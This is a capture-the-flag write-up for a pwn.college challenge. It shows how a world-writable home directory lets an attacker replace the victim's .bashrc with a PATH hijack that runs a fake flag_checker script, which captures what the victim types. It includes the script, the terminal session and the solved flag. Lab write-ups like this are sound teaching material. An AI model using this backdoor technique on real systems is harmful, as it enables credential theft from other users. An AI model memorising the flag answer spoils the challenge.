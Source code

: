 
# 3. Oversharing Directories

This challenge prompted me to replace a user's `.bashrc` by exploiting a world-writable home directory.

## My Solve

**Flag:** `pwn.college{UgJSFsvTl6ZZEr-0WE0BZcLRdcB.0FM0EzNxwCM2EDNzEzW}`

Zardus's home directory `/home/zardus` was world-writable. This allowed me to delete his original `.bashrc` file and create a new one in its place. I put a `PATH` modification in the new `.bashrc` to point to my fake `flag_checker` script (the same one from the previous challenge). When the victim simulation ran, it executed my backdoored `.bashrc` and fake script, revealing the flag.

Content of `/home/hacker/flag_checker`:
```
#!/bin/bash
echo "Type the flag, victim: "
read flag
echo "$flag"
```

Content of the new `/home/zardus/.bashrc`:
```
PATH="/home/hacker:/home/zardus:$PATH"
```

```
hacker@shenanigans~overshared-directories:~$ rm /home/zardus/.bashrc
rm: remove write-protected regular file '/home/zardus/.bashrc'? y
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag, victim:
*************************************************************pwn.college{UgJSFsvTl6ZZEr-0WE0BZcLRdcB.0FM0EzNxwCM2EDNzEzW}
```

## What I Learned

I learnt that write permissions on a directory are powerful. They allow you to delete or create new files within that directory, even if you don't have write permissions on the files themselves.

## References

The problem statement provided was the reference used.

```
...a subtlety of Linux file/directory permissions is that anyone with write access to a directory can move and delete files in it.
...
In this challenge, for convenience, Zardus opened up his home directory:

zardus@dojo:~$ chmod a+w /home/zardus

As you know, there are lots of sensitive files in that directory such as .bashrc!
Can you replicate the previous attack with write access to /home/zardus instead of /home/zardus/.bashrc?
```
